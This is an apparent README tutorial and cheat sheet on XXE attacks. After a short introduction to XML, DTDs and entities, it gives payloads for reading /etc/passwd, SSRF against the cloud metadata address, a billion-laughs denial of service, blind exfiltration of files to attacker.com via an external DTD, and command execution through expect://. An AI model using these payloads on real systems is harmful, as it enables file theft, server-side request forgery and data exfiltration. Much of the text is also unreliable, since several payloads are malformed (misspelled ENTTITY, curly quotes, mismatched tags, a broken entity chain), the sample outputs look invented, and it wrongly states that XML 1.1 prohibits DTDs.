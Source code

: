## INFO 

Before we look at XXE, let’s look into few XML Basics which helps us to understand the main concepts behind XXE

## WHAT IS XXE 

XML stands for Extensible Markup Language, that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable,
and the current version is 1.0.

## Design Goals of XML:

1. Easy processing across the internet.
2. Clear
3. Easy to create

## Some Code of XML:

    <?xml version=”1.0” encoding=”UTF-8”?> 
    <plane>
      <year> 1977 </year>
      <make> Cessna </make>
      <mode> Skyhawk </mode>
      <color> Light Blue and White </color>
    </plane>
    
 ## XML Parser
 
 Say, you have an XML document and your application needs to process the document, 
 the part of processing the XML is called XML Parser and parser tried to parse the document which allows your application to use the parsed values.
 
 ## Document Type Definition (DTD)
 
 This is an optional part of XML but it is part of the XML standard itself. DTD provides a grammar for a class of documents, which can contain markup  declarations which define the structure for a document and can also contain Entities. [note: DTD are prohibited from version 1.1]
 
 ## Entities
 
 These can be seen as a placeholder for variables which comes in
1. Regular Entities: Text substitution, where instead of adding text we can add a reference to the entity.
2. Predefined Entities: This is part of the XML standard.
3. External Entities: A placeholder that can point to internal and external resources.

## Some Code Explane How Vulnerablity Works

    <?xml version=”1.0” encoding=”UTF-8”?>
    <!DOCTYPE Vulnerability [ #DTD Decleration
    <!ENTITY xxe “XXE”> #Entity Decleration
    ]>
    <Vulnerability>
    &xxe; #Reference to entity
    </Vulnerability>

## XML Validation

In this process, we generally validate the well-formedness where we check the syntax but not validate whether it is a valid instance of the included DTD.

Tools we can use to validate an XML file are xmllint and xmlstarlet.

## Common places to search for?

XML file upload (e.g confing files)

XML input fields

XML based Apis

XML based file (RSS,SVG,CSS)

Ms Office files (docx,xlsx,etc.)

SAML-based SSO

VoiceXML in IVR systems

Online MAP editors using KML

## ATTACK TYPE 

1. Classic XXE
2. Server Side Request Forgery
3. Denial of Service 
4. Advanced XXE 
5. Remote Code Execution

##  Classic XXE

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "file:///etc/passwd"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>
    
 ## OUTPUT 
     Hello Khan root:x:0:0:root....
     .......
     ''''''
 
This is Vulnerability
    
## Server Side Request Forgery

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "https://169.254.169.254"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>

 ## OUTPUT
 
 Hello asif 1.0
 2007-01-09
 2007-03-01
 .......
 ''''''

## Denial of Service 

     <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE lolz [<!ENTITY lol "lol><!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5">
    <!ENTITY lol7 "&lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8">
    <tag>&lol9;</tag>


 ## Advanced XXE 
 
 1.Also Known as Blind XXE 
 2.Out of band data exfiltration 
 
 The Payload to Upload/Send
 
     <!DOCTYPE roottag [
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % dtd SYSTEM "http://attacker.com/host.dtd">
     %dtd;]>
     <roottag>&send;</roottag>
     
     Content of host.dtd
     <!ENTITY % all "<!ENTITY send SYSTEM "http://attacker.com/collect.php?file=%file;'>">
     %all;
 
 ## Remote Code Execution 
 
 In Some rare cases XXE can be elevated to executed system commands on the server 
 
 SAMPLE paylod: 
 
     <!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://whoami"> ]>
     
 ## TOOLS
 
 Burpsuite
    
     Intercepting Proxy 
     
  Xxeserv 
  
     A mini webserver with FTP support for XXE paylods 
     
  OXML_xxe
  
     A tool for embedding XXE/XML exploits into different filetypes
     
 ## Impact when exploited:
 
 1. Information Disclosure by reading local files and parsing errors.
 2. Denial of Service.
 3. External Requests which can also be called as SSRF.
 4. Data exfiltration using Out of Band approach.
 5. Remote Code Execution.
 
 
